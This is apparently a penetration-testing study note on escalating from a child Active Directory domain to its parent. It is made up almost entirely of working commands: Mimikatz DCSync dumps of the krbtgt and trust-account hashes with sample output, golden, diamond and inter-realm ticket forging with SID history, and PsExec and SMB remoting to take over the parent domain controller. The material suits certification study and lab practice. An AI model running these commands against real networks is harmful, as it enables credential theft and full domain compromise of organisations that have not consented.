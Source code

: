 # Extra SIDs / Raise Child

## Obtain krbtgt account hash in child domain
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt"'
PsMapExec -Targets DC -Domain prod.corp1.com -Method dcsync -Option "dcsync:prod\krbtgt" -Username admin -Password lab -ShowOutput
```
```bash
SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 4/20/2020 2:26:58 AM
Object Security ID   : S-1-5-21-634106289-3621871093-708134407-502
Object Relative ID   : 502

Credentials:
  Hash NtLm: cce9d6cd94eb31ccfbb7cc8eeadf7ce1 # <-- for Rubeus and Mimikatz golden tickets
    ntlm- 0: cce9d6cd94eb31ccfbb7cc8eeadf7ce1
    lm  - 0: 8670ff0cf0a819ea518fd447a9955d4e

<-- Snip -->

Primary:Kerberos-Newer-Keys
SAlT (defAuLt) : PROD.CORP1.COMkrbtgt
Default Iterations : 4096
Credentials
aes256_hmaC     (4096) : 6d5a5cb31e334c8417e4bfd8a1f85f022355355479648cff37a5dac989e # <-- for Rubeus Diamond ticket
Aes128_HMAC     (4096) : aa6e758536a48483b6ff9a80af2a6c80
des_cbc_md5     (4096) : 4fc7ce40f438674c
```
## Create Golden / diamond ticket
```powershell
# Obtain Domain SIDs for both the child and parent domain
(New-Object System.Security.Principal.SecurityIdentifier((([ADSI]("LDAP://prod.corp1.com")).objectSID)[0], 0)).Value
(New-Object System.Security.Principal.SecurityIdentifier((([ADSI]("LDAP://corp1.com")).objectSID)[0], 0)).Value

# Mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:fake /domain:prod.corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /krbtgt:cce9d6cd94eb31ccfbb7cc8eeadf7ce1 /sids:S-1-5-21-1587569303-1110564223-1586047116-519 /ptt"'

# Rubeus Golden
Invoke-Rubeus -Command "golden /aes256:[aes256 hash] /user:Administrator /domain:corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /sids:S-1-5-21-1587569303-1110564223-1586047116-519 /nowrap"
Invoke-Rubeus -Command "golden /rc4:[rc4 hash] /user:Administrator /domain:corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /sids:S-1-5-21-1587569303-1110564223-1586047116-519 /nowrap"

# Rubeus Diamond
Invoke-Rubeus -Command "diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:S-1-5-21-1587569303-1110564223-1586047116-519 /krbkey:[krbtgt aes256 hash] /nowrap"
```
# Inter-Realm TGT
## Obtain trust key
```powershell
# Obtain trust account hash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\corp1$ /domain:domain /dc:dc"'
PsMapExec -Method DCSync -Targets DC -option "dcsync:prod\corp1$" -username admin -password lab -domain prod.corp1.com
```
## Forge the Inter-Realm TGT
The trust key can then be used to forge an inter-realm TGT to the parent domain `corp1.com`. Mimikatz is used initially
```powershell
# Obtain Domain SIDs for both the child and parent domain
(New-Object System.Security.Principal.SecurityIdentifier((([ADSI]("LDAP://prod.corp1.com")).objectSID)[0], 0)).Value
(New-Object System.Security.Principal.SecurityIdentifier((([ADSI]("LDAP://corp1.com")).objectSID)[0], 0)).Value

# Use Mimikatz to forge the inter-realm TGT and save .kirbi to disk
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:prod.corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /rc4:d6eba9e9b9bb466be9d9d20c5584c9ef /service:krbtgt /target:corp1.com /sids:S-1-5-21-1587569303-1110564223-1586047116-519"'

# Used the saved .kirbi ticket file to request a service ticket for the cifs service against
# the parent domain domain controller
Invoke-Rubeus -Command "asktgs /ticket:ticket.kirbi /service:cifs/rdc01.corp1.com /dc:rdc01.corp1.com /nowrap" 
```
## Compromise the DC
After performing the above with Rubeus we can validate the requested service ticket and compromise the DC
```powershell
# Validate if CIFS ticket is valid
ls \\rdc01.corp1.com\c$

# Get SMB Shell
Invoke-SMBRemoting -ComputerName 'rdc01.corp1.com\'
PsExec64.exe \\rdc01.corp1.com\ cmd
```
# Unconstrained Delegation Abuse
If we have compromised a system configured with Unconstrained Delegation, it may be trivial to use this to gain access to an alternate forest or domain by coercing authentication from a user or machine account in the target foresst to authenticate to our compromised system with unconstrained delegation.

Following the steps here: https://github.com/The-Viper-One/OSEP-Notes/tree/main/Active_Directory/Kerberos_Delegation/Unconstrained.

## Note

In 2019, Microsoft issued two rounds of security advisories and updates The first blocked TGT delegation for all new forest trusts, while the second blocked it for existing forest trust as well.

